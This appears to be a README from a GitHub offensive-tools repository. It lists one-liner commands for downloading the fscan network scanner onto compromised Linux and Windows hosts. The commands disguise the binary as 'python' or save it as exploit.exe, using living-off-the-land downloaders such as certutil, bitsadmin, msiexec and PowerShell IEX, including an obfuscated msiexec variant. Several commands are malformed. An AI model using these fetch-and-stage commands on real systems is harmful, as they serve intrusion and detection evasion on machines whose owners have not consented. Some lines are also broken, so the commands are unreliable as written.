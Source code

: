 # heixiongT00ls

## fscan
Linux amd
```
64
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan -O python

32
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32 -O python
```


Linux arm
```
64
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64 -O python

32
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6 -O python
```


Windows 
```
64
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe

32
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan32.exe
```
